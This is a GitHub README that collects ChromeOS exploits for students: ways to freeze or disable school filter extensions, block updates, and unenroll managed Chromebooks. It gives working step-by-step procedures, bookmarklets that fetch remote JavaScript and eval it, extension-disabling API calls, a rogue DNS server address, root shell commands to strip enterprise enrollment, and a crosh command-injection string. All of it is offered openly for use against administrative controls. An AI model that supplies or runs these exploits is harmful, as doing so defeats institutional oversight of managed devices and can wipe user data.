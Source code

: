 # Exploits And Hacks
This is a curated list of exploits for ChromeOS. It started with LTBEEF, and now there is more!
Many of these exploits can destory your computer if used inproperly. So PLEASE PLEASE make sure you follow these instructions very carefully!
If you need help ask it <a href="https://github.com/Brandon421-ops/Exploits-And-Hacks/discussions">here</a>

Note: Students to see the list of more exploits click on JPCMG [LTBEEF with Service workers and scroll down.
  
**ATTENTION ALL SYS ADMINS!!!**

Hello, I am Brandon and I forked this repo from <a href="https://github.com/3kh0/ext-remover">3kh0</a> in order to give updated and old exploits for the masses and to prove one thing, chromebooks are literal trash, and a poor excuse for a computer. They are full of exploits, you might think you blocked/patched them all but then 3 more pop up. It is a endless game of whack-a-mole. Treat your students to a windows computer, they will thank you. And don't you dare start to think "My school district does not have that kind of money", it most likely does! How much are you paying the blocker companies? Think about that.

<img width="250px" src="https://user-images.githubusercontent.com/58097612/191354621-bf7ff072-b9d7-46b5-994a-4d2adbf0e4f3.png">  
Image Credit: LittleMissNyan

<details>
<summary><b>LTMEAT</b> Freeze extensions</summary>

  **DO NOT UPDATE YOUR CHROMEBOOK TO CHROME VERSION 115 OR ABOVE**

**Patched** **On** **Chrome** **Versions** **115** **And** **above**

**L**iterally **T**he **M**eatiest **E**xploit of **A**ll **T**ime

From [ltmeat.bypassi.com](https://ltmeat.bypassi.com), if you are intrested in how this exploit works, check out that website.

1. Find a page belonging to the extension you want to disable. `chrome://extensions`, `chrome://extensions-internals`, and `chrome://process-internals` are all good places to find your extension's ID (a 32-character lowercase string). You can also just do a simple Google search. Once you have your ID, substitute it into the hostname in the URL below:

```
chrome-extension://extensionidhere/manifest.json
```

For some filters like Securly, the block screen is already an extension page. 

2. Bookmark the extension page (bookmark A) if you wish. Then, bookmark `chrome://kill` (B) and `chrome://hang` (C). 
3. While on the extension page (A), click the `chrome://kill` bookmark (B). The page should crash. You should already have the next step prepared. 
4. Instantly start spamming `chrome://hang` (bookmark C) and quickly reload the page while spamming (ideally with the refresh key on your keyboard or `ctrl`+`R`). You should have reloaded within one or two seconds of killing the page. 

If the extension page (bookmark A) no longer loads, then LTMEAT worked! You can close your tabs and the extension will basically be dead. If nothing loads, then you probably reloaded too late or spammed too slow. This isn't rocket science! Restart your computer to revert back to normal. 

Exploit made by [Bypassi#7037](https://buymeacoffee.com/bypassi), [further reading](https://ltmeat.bypassi.com)

### "Help me! I'm an idiot!"

Turns out that I had far too much faith in society when making this page. Some of you skids out there are really, really stupid and also can't read. So here are the answers to some commonly asked questions. 

**How do I get an extension ID?**

Okay, fair. Extension IDs are leaked in a couple of places. Generally, the best way to get them is to go to extension settings and copy the URL query value.

**It says blocked by client?**

That's the message you get when you try to visit an a page belonging to an extension that doesn't exist. The error message (`ERR_BLOCKED_BY_CLIENT`) is extremely misleading. Nobody blocked it--you just need to find the right extension ID (see above).

If you got this because you tried to visit the `extension_id_here_please` example URL, you should be extremely ashamed of yourself. Please change and grow as a person. 

**I don't have a bookmarks bar!!!!**

First, try running ctrl+shift+B. If that doesn't work, go to `chrome://settings` and turn on the "home button" feature, then set it to `chrome://hang`. A home icon should show up to the right of your refresh icon in the top left. Use that instead of bookmark C.

There is a version where you don't need bookmarklets, but I am currently gatekeeping it (L). Check this site daily to see if new alternate instructions have been posted. 

**I disabled an extension but now I can't load websites!**

If you actually just read the writeup, you'd know that this would happen if the extension's background page loaded and its listeners were already initialized before you used `chrome://hang`. You can double-check whether the extension is listening using `chrome://extensions-internals`, assuming you have a few brain cells in your head.

Anyway, no listeners means you were too slow. Either you waited more than three seconds between bookmark B and reloading the page, or you weren't spamming bookmark C fast enough. The most reliable fix for this is to just restart your computer and try again. Try to match the pace of the gif below: (note the reload) 

![image](https://ltmeat.bypassi.com/img/abc.gif)

**The bookmarks don't do anything when I click them!**

Might be admin-blocked. Either be smart enough to figure out another way, or check this site daily to see if new alternate instructions have been posted.

**I disabled the extension, why is some stuff still blocked?**

I have bad news for you... not all filters are Chrome Extensions. And again, make sure the extension pages (like bookmark A) are frozen before you assume that your skiddy self successfully did the exploit. 

*Need more help? [Ask in the discussions](https://github.com/3kh0/ext-remover/discussions)*

</details>

<details>
<summary><b>Baby LTMEAT</b> Freeze extensions</summary>

**Patched On Chrome Versions 115 And Above**
  
BABY METHOD
FOR THE TECHNOLOGICALLY CHALLENGES.

1. Follow step one of the original instructions to find a page belonging to the Chrome extension you want to disable.

2. Visit that chrome-extension://blockeridhere page, then type chrome://hang in the URL bar of that tab. It should start loading infinitely.

3. Right-click the tab and duplicate it. Don't close anything.

4. Go to the chrome://extensions page for the blocker extension you want to Disable.

5. If that page has any sort of switch, such as "Allow access to file URLs", click that switch. If there are no clickable switches, cry in a corner or something.

The extension should now be broken, assuming you clicked the switch! Only one of the two duplicate tabs should be left standing. You can close your tabs now.

</details>

<details>
<summary><b>LTMEAT Flood</b> Freeze extensions</summary>

  **If your Chromebook has received the 115 And Above patch on the stable channel Then Here's A New Method For LTMEAT**
  
  
**Unpatched on 115 and above**

**L**iterally **T**he **M**eatiest **E**xploit of **A**ll **T**ime

1. Create a bookmark folder and paste the extension page lots of times. (About 800 minimum is recommended assuming your Chromebook is average school quality) It is recommended that you add the extension page at the beginning of the folder.

2. Right click and open all in a new window.

3. Close the window with all those tabs.

4. Open the folder in a new window again, and Chrome should hang those tabs to take care of the old ones in the background that were just closed. (Equivalent to the duplicate tab step in Bypassi's method)

5. Flip the Allow access to file URLs switch in the extension settings and then you've bypassed the patch and the exploit is working.

6. Close everything and you're good to go. If it didn't work, try adjusting the number of open tabs. This is the LTMEAT Flood Method, and also unofficially called Alternate Method # 2. Enjoy a much longer life of LTMEAT!

**Not working?** Ensure you open a large set, but not too large, of extension tabs (_/generated_background_page.html or /manifest.json) for a permanent freeze.

Credit to <a href="https://github.com/AshtonDavies">Ashton Davies</a> for finding this workaround

</details>

<details>
<summary><b>Baby LTMEAT Flood</b> Freeze extensions</summary>

**Unpatched on 115 and above**

1. First of all, get your folder with 800+ extension page tabs and open it in a new window, for my Chromebook i used 800 extension page tabs as i feel it's the right amount for me

2. Close the newly opened Window with 800+ extension page tabs

3. Click into your folder, and open one of the extension page tab in a new window, maybe waiting slightly longer this time, to confirm it worked. If it loads, you did it wrong. If you see a "page unresponsive screen, and a wait/exit page button" you did it right" But don't click either of the buttons. (if you want to do it fast you can just see that the page always has a spinning loading circle)

4. Now go to `chrome://extensions/?id=yourblockerID`  Then scroll down and flick the "allow access to file URLs" lever and close the window with the 1 extension page tab remaining.

</details>

<details>
<summary><b>LTVegan</b> Freeze extensions</summary>

1. find the biggest file for your blocker extension

2. open chrome://extensions/?id=IDHERE

3. CTRL+A to copy all of the code, then drag the copied text to the tabs bar. this may freeze your  chromebook a few times.

4. start clicking the chrome extension tab (chrome://extensions/?id=IDHERE ) a few times, then wait ( chromebook is currently frozen).

5. when your chromebook isn’t as frozen, right click the main.js tab and duplicate it.

6. click the “Allow access to file URLs” (multiple times for good measure) and the first tab should close itself. if BOTH tabs closed themselves, you did something wrong, or just try again.

7. you should be able to normally use your  Chromebook now. afaik you might be able to close the duplicated tab but I didn’t close it and it lasted for a long time.

</details>

<details>
<summary><b>Anesthesia</b> Freeze extensions with printing</summary>

1. Find your extension's largest file. This can usually be found by poking around in your extension's manifest.json or you can use <a href="https://robwu.nl/crxviewer/">Rob Wu's crxviewer</a> to find your extensions largest file.

2. Go to that page. and hit `Ctrl`+`P`. A print window shoudl show up, with a number of pages in the top right.

3. Do everything you can to increase that number. Shrink down margins, change layout to landscape, anything you can. The higher you can get that number, the longer the effect will last.

4 Hit reload. The page should start hanging.

5. Go to your extension's settings page. This is in `chrome://extensions`.

6. Duplicate your "printing" tab, and go back to your extension's settings page.

7. Flip any switch you can find there. Usually there'll be one titled "`Allow Access to File:// [URL]s`".

8. Presto! Go have fun on the (probably) unblocked web.

FAQ:
Where do I find my extension's manifest.json?
First find your extension's ID. This is a 32-character code that can be found in your extension's settings page, normally near or at the top. Then go to chrome-extension://your-32-char-id-goes-here/manifest.json

Credit to <a href="https://buymeacoffee.com/bypassi">Bypassi</a> for the original LTMEAT framework, and HUGE thanks to Swordmaster4321 for discovering that pages can be hanged with printing.

</details>

<details>
<summary><b>LoMoH</b> Disable extensions</summary>

  **This exploit has been patched in Chrome OS 111 after being found and reported. It should have gotten admin protection sooner.**

  **About: LoMoH is a Chromebook exploit that uses the Chrome OS locked mode feature to soft disable enforced extensions (excluding Hapara Highlights if installed).**
  
HTML VERSION: <a href="https://tiny.cc/LoMoH">LoMoH HTML</a>

BOOKMARKLET VERSION: `javascript:(function(){if (location.hostname == "docs.google.com") {document.body.innerHTML = document.body.innerHTML.replace("Locked mode is on", "Are you ready to turn off extensions?%22);%20document.body.innerHTML%20=%20document.body.innerHTML.replace(%22You%20have%20already%20opened%20and%20closed%20this%20quiz.%20Opening%20this%20quiz%20again%20will%20notify%20the%20form%20owner%20by%20email.%22,%20%22This%20will%20reload%20all%20tabs%20in%20your%20browser%22);%20var%20button%20=%20document.getElementById(%27mG61Hd%27);%20button.innerHTML%20=%20button.innerHTML.replace(%22Start%20Quiz%22,%20%22Disable%20Extensions%22);%20button.addEventListener(%27click%27,%20function(event){window.close();})}%20else%20{window.open(%22https://docs.google.com/forms/u/0/d/e/1FAIpQLSf5EYwrSUjmQhBOasMpORZy80eBCYb7qCpEwWNoRPUGyObGMA/startquiz%22);}})()`

Credit to <a href="https://github.com/AshtonDavies">Ashton Davies</a> for finding this exploit

</details>

<details>
<summary><b>Dextensify</b> Freeze extensions</summary>

**Dextensify is an exploit which lets you disable most admin-installed Chrome extensions from any webpage. It can be used from regular websites, HTML files, and data URLs.**

Go here and follow instructions: <a href="https://dextensify.pages.dev/main">Dextensify Main HTML</a>, or download the file here <a href="https://github.com/Brandon421-ops/Exploits-And-Hacks/blob/main/Dextensify.html">Dextensify.html</a>

Credit to <a href="https://ading.dev/">ading2210</a> for finding/Making this exploit

</details>

<details>
<summary><b>JPCMG</b> LTBEEF with Service workers</summary>

**Requirements**
- Access to `chrome://serviceworker-internals`
- Inspect element

1. Go to `chrome://serviceworker-internals`
2. Find your extension, this wont work if theres not a plugin in there.
3. Hit the start button then the `inspect` button, run basic LTBEEF code
```js
chrome.management.setEnabled('<plugin id here>',false)
```
4. Profit

![image](https://user-images.githubusercontent.com/58097612/234904781-4d5ad77e-6045-435e-8aae-df12dec53013.png)

Thanks to Nyaann#3881 for this exploit

</details>

<details>
<summary><b>Corkey</b> Corrupt extensions</summary>

**Corkey does indeed include power washing the Chromebook, which wipes local data including everything under "My files," so I suggest you select everything you want to drag and back up to Google Drive if that's available for your account.**

**Chromebooks Only**

1. `Esc`+`Refresh`+`Power` and re-enroll (Enter recovery page) or you can just powerwash

2. log into your chromebook and immediately turn off wifi and do `refresh`+`power` to (instant restart)

3. Log back into your chromebook with the wifi off. There should be something on the side of the connect wifi page that says log in offline or sign in as a existing user.

4. Go to `chrome://extensions`, turn on wifi, and wait for your schools blocking extension to appear.

5. As soon as it appears turn off wifi and instant restart as fast as you can.

6. Log back in and go back to extensions and wait. If it says your blocking extension could be corrupted or doesnt appear at all then it worked (wait atleast a minute with a close watch incase it comes back)

7. If it didnt work repeat from step 1.

8. If it did work you could go onto anything

</details>

<details>
<summary><b>Extension Launcher</b> Install extensions w/o allowlist</summary>
A bookmarklet capable of installing extensions, for those without a allowlist. 

Steps: 

1. Go to <a href="https://extension-installer.glitch.me/code.js">here</a> bookmark the code there (Might make a dns)

2. go to <a href="https://chrome.google.com/webstorex">chrome.google.com/webstorex</a> and use the bookmarklet, then put the icon of the extension, the id, and name of it (Doesn't matter just put anything)

3. press download, and it will work.

**Extra Notes**
- Credit to "Aka, but nice" on discord.
- Dns will be up soon, if bookmarklets are blocked
- This will not work if you have a blocklist this is only for if when you go to the webstore it shows blocked
</details>

<details>
<summary><b>Point-Blank</b> Scripts on extension pages</summary>

This exploit allows you to run scripts, on extensions pages, this is a great example of how Chromebooks are a piece of garbage.

<i>Getting started</i>
(Note: if bookmarklets are blocked your screwed.)

1. Go to <a href="https://spot-maze-chinchilla.glitch.me/ingot.js">here</a> <a href="https://raw.githubusercontent.com/3kh0/ext-remover/main/newpointblank.js">if blocked</a> on your school chromebook.

2. Make a bookmark with the code there.

3. Once that is done,

 If you have Securly go to <a href="https://tinyurl.com/bettergoofcurly">here</a> if it says blocked by chrome, reload (you have to actually have securly ofc)
 
 If you have iBoss go to <a href="https://tinyurl.com/goofboss">here</a>.
 
 If you have Cisco Umbrella go to <a href="https://tinyurl.com/goofumbrella">here</a>.
 
 If you have Blocksi go to <a href="https://tinyurl.com/goofsi">here</a>.
 
 And if you have GoGuardian(might not work) go to <a href="https://tinyurl.com/goofguardian">here</a>. 
 
 Now most of these links are a block page(this is intentional) on each page should have a blue link, click the link on the page if it opens a blank page click the bookmarklet that you just made and click either hard disable or soft disable, you can also run some of the scripts and run your own code, your extension may disable javascript being ran on it, so running your own code may not work.
 
**Extra notes**
- I recommend doing soft disable, which only disables it until restart. 
- The launcher was made by 3kh0, but the idea was from <a href="https://bolg.glitch.me/_/point-blank/">Bypassi#7037</a>
- If your school updated GoGuardian, this exploit may not work.

</details>

<details>
<summary><b>UBoss</b> Tamper with IBoss</summary>

By the BlueHatCrew
<a href="https://dsc.gg/blue-hat-crew">https://dsc.gg/blue-hat-crew</a>

This works only for iBoss, and Blocksi, If you don't have one of these, use Blank3r or Point Blank.

1. Go to https://tinyurl.com/byeswamp if you have iBoss or https://tinyurl.com/blockboss if you have Blocksi.
Then bookmark the code below
```js
javascript:opener.eval(`fetch("https://rounded-boiling-flax.glitch.me/uboss.js").then(data=>{data.text().then(e=>{eval(e)})})`) && close();
```
2. Then go to the site with your blocker that was listed above.
3. Run the code. Follow the instructions there.

If it doesnt work let us know by creating a discussion, this was made in partnership with Aka, but nice#5094 and Bypassi#7037.

</details>

<details>
<summary><b>A Bypass For IBoss</b> Unblock websites that are blocked by IBoss</summary>

1. Firstly go over to your unblocked website you want to access. 

2. After visiting the website it should be blocked.

3. You want to turn off your wifi, then spamclick the blocked link  (not the url)

4. Then after spamclicking, turn on your wifi.

5. It should redirect you to "your connections been dissrupted" press reload.

6. Then you should be at the blocked website completely unblocked!!

(NOTE: THIS ONLY WORKS ON SOME WEBSITES)

</details>

<details>
<summary><b>CAUB</b> Prevent Updates</summary>

This exploit keeps your chromebook downgraded (or on the current version) without automatic updates screwing you over. This exploit was found by Catakang#0987. Using onc files, you can convince your chromebook that the wifi that you're connected to is pay-to-use (like a hotspot using data), and thus it will not check for updates.

![image](https://user-images.githubusercontent.com/58097612/212685932-ef9c802e-6040-42a3-be6e-10997162b7cd.png)

<i>Getting started</i>

1. Go to `chrome://network#state` (on your school chromebook of course; if this is blocked then ur kinda screwed lol).
2. Scroll to the bottom of the page; you should see a list of "favorite" wifis that you've connected to in the past.
3. Click the `+` sign next to the wifi name of each network that you commonly connect your chromebook to.
4. The more wifis you expand, the better, but note that they have to come from the "favorites" section.
5. Use ctrl+a and ctrl+c to copy all the text on the entire network#state page.
6. Go to [caub.glitch.me](https://caub.glitch.me/).
7. Paste the copied text into the textbox bshelow.
8. Press the `generate onc` button below the textbox.
9. Once you have downloaded the file, go to `chrome://network#general`.
10. Click on the `import onc` button.
11. Import the newly downloaded file.

**Extra notes**
- Your chromebook will no longer automatically update. (as long as you are on a wifi that you used caub on)
- Be careful not to stay on a wifi for too long without using caub on it, otherwise you might update.
- We cannot guarantee that this will work on every wifi

</details>

<details>
<summary><b>CAUB Via Flags</b> Prevent Updates</summary>

This alt exploit keeps your chromebook downgraded (or on the current version) without automatic updates screwing you over. This exploit was found by <a href="https://github.com/MechaXYZ">MechaXYZ</a>. Using a chrome flag, you can convince your chromebook not to automatic update.

### Requirements
- Access to `chrome://flags`

<i>Getting started</i>

1. Go to `chrome://flags#show-metered-toggle` or search "metered" in `chrome://flags` instead.

2. Enable it and restart your device.

3. Open the Settings app.

4. Go to your Network >> Advanced >> Show metered toggle and turn it on

**Extra notes**
- Your chromebook will no longer automatically update. (as long as you have the flag enabled)
- And you must be able to enable flags if it ain't blocked otherwise this exploit won't work

</details>

<details>
<summary><b>LTBEEF</b> Disable extensions</summary>

LTBEEF is an exploit, created by Bypassi#7037, which abuses api endpoints within the google chrome webstore. The original site created for this exploit can be found at <a href="https://ltbeef.netlify.app/">ltbeef.netlify.app</a>

<b>Please Note:</b> This exploit only works on versions below 106, and eariler versions of 102
  
**Installation**  
There are several vesions of this exploit you can use, here are the 2 most common versions:
- *Bookmarklets*  
    1. To use a GUI, bookmark one of the below scripts:  
    - Ingot  
    ```js
    javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
    ```
    - Compact Cow's UI  
    ```js
    javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
    ```  
    - Compact Cow's UI (Dark)
    ```js
    javascript:void fetch(`https://raw.githubusercontent.com/3kh0/ext-remover/main/exploit.js`).then(d=>d.text()).then(eval);
    ```
    2. Navigate to <a href="https://chrome.google.com/webstorex">https://chrome.google.com/webstorex</a> and click on that bookmark. 
    3. Flip the switches on the extentions you want to disable. Simple!  

    Photos of the GUI's:
    ![image](https://user-images.githubusercontent.com/58097612/193318485-5267cd59-fb65-45a5-ad28-7f068bbce974.png)
    ![image](https://user-images.githubusercontent.com/58097612/190276894-fc492c5c-b0ce-4943-ae56-603f75634618.png)
   
- *DNS servers*  
    By changing your DNS server, you can use LTBEEF, even if bookmarklets are blocked.  
      
    1. First, go to Settings > Network > Wifi > Network.
    2. Click on `Custom Name Servers`
    
    ![image](https://user-images.githubusercontent.com/88395302/212482302-82334f42-c421-45c2-b210-1e700652b5be.png)  
    
    3. Set every box there to the following ip:
    ```
    158.101.114.159
    ```
    (Hosted by The Greatest Giant#0110)  
    4. Navigate to <a href="https://chrome.google.com/webstorex">https://chrome.google.com/webstorex</a> and click on that bookmark. 
    5. Flip the switches on the extentions you want to disable.
    6. Profit
    
</details>  

<details>
<summary><b>LTBEEF inspect</b> Using inspect to disable extensions</summary>

![image](https://user-images.githubusercontent.com/58097612/207386423-e6aa2095-d92d-44a8-a3d6-e42066bdf34e.png)

The screenshot below was preformed on `108.0.5359.75` (Official Build) (64-bit) on the stable channel. This has been tested and does work but has varying levels of success, you will need access to inspect element, more specifically, console.

1. Open this on your chromebook: 
```
chrome-extension://gndmhdcefbhlchkhipcnnbkcmicncehk/manifest.json
``` 
Shortened link: https://tinyurl.com/i-ltbeef
2. Open inspect and navigate to the console tab.
3. Run the basic LTBEEF code such as
```js
chrome.management.setEnabled('extensionid', false)
```
Replacing `extensionid` with the ID of the extension you want to disable, e.g. the stuff after the = in the URL bar when you click the extension's "details" button in chrome://extensions

Credit to SprinkzMC#8421 (aka Bypassi) for finding this!

![image](https://user-images.githubusercontent.com/58097612/207385046-5a9f6f07-6089-4775-9183-c11bd24ba02c.png)

To re-enable just go to the chrome web listing for the extension and click on the banner.

</details>

<details>
<summary><b>Blank3r</b> Reload extensions continuously</summary>

Point Blank is an exploit that allows you to run bookmarklets on privileged pages, such as the Chrome extensions page. This exploit was made with Point Blank as well.

You can either use the prompt or the gui the prompt is below

1. Bookmark this code:

```js
javascript:let shim = false;var ids = prompt("extension ids (comma separated)").split(",");setInterval(()=>{ids.forEach((id)=> opener.chrome.developerPrivate.updateExtensionConfiguration({extensionId: id, fileAccess: shim}));shim = !shim;}, 145);
```

And the gui is in launcher.js


2. Navigate to `chrome://extensions`.

3. Click on a extension that YOU installed from the Chrome Web Store > Details.

4. In the URL bar, copy the string of letters and numbers after the `/?id=`.

5. Click "View in Chrome Web Store" and spam the excape key. If it loads into chrome webstore try again, if it is a blank screen click the bookmarklet.

5. Paste the id of the extension into the prompt or input box seperated by commas.

If you close the tab, the exploit will stop working.

</details>

<details>
<summary><b>SH1mmer</b> Unenrollment</summary>  
sh1mmer is an exploit developed by the crew at Mercury Workshop. Credits can be found within the menu and on their site.  

Further information is now located at these links:

<a href="https://github.com/CoolElectronics/sh1mmer">Official Repository</a>  

<a href="https://sh1mmer.me/">Official Website (INSTRUCTIONS)</a>

<a href="https://dl.osu.bio/">Raw Shims Download</a>

</details>

<details>
<summary><b>SH1mmer V111 → V113</b> Unenrollment</summary>
How to use SH1MMER on v111 → v113
(if you're willing to take the back cover off your Chromebook)

you'll only need to do this once, and it will let you use SH1MMER even after it's been completely patched



        1. Unplug everything, open the back panel, disconnect the battery to disable WP, plug in the charger
        2. boot into SH1MMER and use "Un-Enroll / Deprovision" (yes I know it will show an error, but that doesn't
        matter)
        (you will also need to run "Disable block_devmode" if you're using the old legacy version)
        3. go to the bash shell and run this command:
        /usr/share/vboot/bin/set_gbb_flags.sh 0x8090
        do not use "Reset GBB Flags" after this

        4. exit SH1MMER, unplug everything, reconnect the battery, reconnect the charger
        5. boot up, press CTRL + D to enter developer mode
        6. once it completes, use CTRL + ALT + SHIFT + R to powerwash
        7. after powerwash, immediately go into VT2 by pressing CTRL + ALT + F2 (→), login as "root" and run these commands:
        tpm_manager_client take_ownership
        cryptohome --action=remove_firmware_management_parameters
        if it fails, try downgrading to v110 if possible. if you can't, use E-Halycon instead.
        8. press CTRL + ALT + F1 (←), use CTRL + ALT + SHIFT + R to powerwash again
        9. profit

        NOTE: if you're on dedede, your WP method is probably different. look your model up online to find the WP
        method.

</details>

<details>
<summary><b>CryptoSmite</b> Unenrollment</summary>

**CryptoSmite** is an exploit capable of completely unenrolling enterprise-managed Chromebooks. It was found by FWSmasher and released on **March 9th, 2024**.

**This exploit has been patched since Chrome OS 120.**

### Finding Kernver
If you're on v120 or higher, you need to downgrade in order to use CryptoSmite. To do this, you first need to check your `kernver=` in Recovery Mode.

1. Boot into Recovery Mode
   - Hold ESC + Refresh + Power for 2 or 3 seconds.
   - You should be on an "Insert Recovery Media" or "Let's step you through the recovery process" screen.
2. Press TAB and look at the last digit of the `kernver=` line

- `kernver=` ends with a 2! <br />
Congratulations, you can downgrade to v119 or lower! Follow the instructions at [Downgrading *Change versions*](#downgrading-change-versions) on how to downgrade.

- `kernver=` ends with a 3! <br />
Sorry, you can't downgrade to v119 or lower. Wait for a new unenrollment exploit or do a <a href="https://blog.darkn.bio/blog/3-the-tsunami">**dangerous** hardware modification</a>.

### Using CryptoSmite
1. Download a SH1MMER Prebuilt image here: <a href="dl.darkn.bio">https://dl.darkn.bio/SH1mmer/Prebuilt/</a>
2. Disable OS verification *(blocked or not, doesn't matter)*, and boot into the shim.
3. Navigate to Payloads and navigate to CryptoSmite using the arrow keys, then press `Enter`.
4. Type in `Y` then press enter, and it'll automatically reboot upon completion.
5. Proceed through the setup partially till you get to the Add Account Screen.
   - If you see an update prompt, reboot then press `CTRL + ALT + E` on the Wi-Fi screen.
     - This *should* allow skipping the update, or make it not appear at all.
6. Powerwash the Chromebook at the "Add Account" screen. Afterwards, it'll be fully unenrolled.

### Further Reading
- <a href="https://github.com/FWSmasher/CryptoSmite">Repository</a>  
- <a href="https://blog.coolelectronics.me/breaking-cros-2/">Writeup</a>
- <a href="https://exploitingchromium.blogspot.com/">Official Blogspot</a>

</details>

<details>
<summary><b>E-Halcyon</b> Unenrollment Or Downgrade</summary>

First of all, you'll need a linux PC or VM. WSL is not guaranteed to work

Now, you'll need to boot into SH1MMER, and press the Un-Enroll option. It won't truly unenroll you if you've received the 112 update patching unenrollment and downgrading, but it is still a necessary step for the rest of this. If you've never used SH1MMER before or don't have an image lying around, make sure to follow all the instructions on sh1mmer.me for unenrollment before proceeding with the rest of the tutorial here

Next, you need a version 107 recovery image corresponding to your board, which you can pick up from chrome100.dev. Once you've downloaded the right image for your board and have confirmed it's for version 107, unzip it and save it to a safe place. Now open up a terminal and type in the following commands (make sure to replace /path/to/recovery/image.bin with the actual path)

```
git clone https://github.com/MercuryWorkshop/RecoMod
cd RecoMod
chmod +x recomod.sh
sudo ./recomod.sh -i /path/to/recovery/image.bin --halcyon --rw_legacy
```

The script will modify the image in place, and it can now be flashed with a standard recovery tool onto a USB of your choice.

Enable developer mode and get to the dev mode block screen similarly to how you would with SH1MMER, then plug in the USB. The recovery screen will show up, and at this point you need to start spamming the E key on your keyboard. It will begin a 5 minute wait sequence, and near the end of the 5 minutes start spamming E again. You will only have to wait 5 minutes once, subsequent boots will have the 5 minute wait omitted

The boot splash will show, and you will enter a special menu. Use arrow keys to navigate the cursor down to "activate halcyon environment" and press enter. Then navigate down to "Install halcyon semi-tethered" and wait for it to finish. Once it's finished, go back to "activate halcyon environment" and press "Boot halcyon semi-tethered". and you will be booted into a downgraded and unenrolled ChromeOS environment.

FAQ:
How does this work?
See the writeup for more information

Can the admins see that I'm doing this?
No.

Why don't my history/cookies/etc save after a reboot?
Unfixable restriction of cryptohome. See the writeup for more information

Why is my Chromebook "Missing or damaged?"
After installing E-Halcyon, you won't be able to boot Chrome OS normally. You'll have to keep the usb around to jumpstart the booting process

Where do I report bugs?
The RecoMod GitHub

Why does it say "E mode not activated" when I try to boot halcyon?
You spammed the E key when starting at the wrong time, or not at all

Credits:
CoolElectronics - RecoMod, working switch_root, and everything else
OlyB - Insight and contributions to the RecoMod script
vk6 - Created this website

</details>

<details>
<summary><b>Old Weird Unenrollment</b> Unenrollment</summary>

if you have a chromebook that's on a version below 101  
(check `chrome://version` to see)
press ctrl+alt+t and type this in            


`set_cellular_ppp \';dbus-send${IFS}--system${IFS}--print-reply${IFS}--dest=org.chromium.SessionManager${IFS}/org/chromium/SessionManager${IFS}org.chromium.SessionManagerInterface.ClearForcedReEnrollmentVpd;exit;\'`

                                                         
           then powerwash and it will unenroll           
                       cool right                        

    to re-enroll, open a bash shell and type these in one by one
```
sudo -i
```

```
vpd -i RW_VPD -s check_enrollment=1
```

```
echo "fast safe" > /mnt/stateful_partition/factory_install_reset
reboot
```

</details>

<details>
<summary><b>Shimboot</b> Linux from RMA shim</summary>

Shimboot is a collection of scripts for patching a Chrome OS RMA shim to serve as a bootloader for a standard Linux distribution. It allows you to boot a full desktop Debian install on a Chromebook, without needing to unenroll it or modify the firmware.
  
**For more detailed information, please see the project's <a href="https://github.com/ading2210/shimboot">README</a>**

Further reading:
- <a href="https://shimboot.ading.dev/">https://shimboot.ading.dev/</a>
- <a href="https://github.com/ading2210/shimboot">https://github.com/ading2210/shimboot</a>

Credit to <a href="https://ading.dev/">vk6</a> for this exploit

</details>

<details>
<summary><b>Skiovox</b> Unrestricted browsing</summary>

**Patched on chrome versons 120+**

### What is it?

An exploit that allows for browsing within a completely unblocked Chrome
browser. It works on ChromeOS 118 and a wide range of previous versions.
- Skiovox utilizes a bug in kiosk apps
- Very similar to a bug from 3 years ago
Within the unblocked browser, you can
- Install extensions
- Bypass pretty much all blocks
- Do whatever the honk you want

### How to use it

Bypassi made a wonderful slideshow for you goof balls to follow, view using any of the links below!

- <a href="https://www.skiovox.com/">https://www.skiovox.com/</a>
- <a href="https://skiovox.netlify.app">https://skiovox.netlify.app</a>
- <a href="https://drive.google.com/file/d/1tl8eP26MFRejHO38H5HwMLl2VaQrtn0Z/preview">https://drive.google.com/file/d/1tl8eP26MFRejHO38H5HwMLl2VaQrtn0Z/preview</a>
- <a href="https://1drv.ms/b/s!Ais5N3vPLTEMh8poZbywnNWdMUrhUA?e=MaCHBx">https://1drv.ms/b/s!Ais5N3vPLTEMh8poZbywnNWdMUrhUA?e=MaCHBx</a>

</details>

<details>
<summary><b>Skiovox for v120</b> Unrestricted browsing</summary>

**Skiovox Method "120"**

"If you see that you don't have a sign in as existing user button, click Ctrl+Alt+Shift+R then click cancel" then continue.

1. Sign out of your chromebook.

2. Turn off your wifi.

3. Select one of the apps

4. As soon as you click on the app, quickly hit Alt+Shift+S.

5. This should to launch the toolbar; watch for the "No wifi" screen to appear.

6. After you click the settings on the screen brightness settings in the tool bar, nothing should happen (the tool bar will disappear), and that's normal.

7. Press Ctrl+alt+z to open Chrome Vox, then select Resources, then select a link. Now use the exact keybindings to close Chrome Vox.

8. Entering your password and school account, after click "Sign in as existing user." (Same login for school.) If everything went well, you should notice "muti user sign in disabled on this Chromebook" and be logged into your school account in the kiosk app. To bypass simply press the ESC button.

9. You should be able to exit the browser associated with your school account and see a settings option; try turning on wifi first, then close that window. The window unblocked is the last one. You can launch incognito as well.

</details>

<details>
<summary><b>Skiovox for v121</b> Unrestricted browsing</summary>

**Skiovox Method "121"**

1. signout

2. type your password in (dont enter)

3. click esc + shift + alt + r

4. click "cancel" (dont powerwash your chromebook)

5. do the normal skiovox thingy (ex: turning off wifi, going into the kiosk app, and alt + shift + s'ing then finally going to accessibility and question mark)
-- these next steps have to be fast

6. click "add wifi" then spam esc

7. click add other person and spam esc

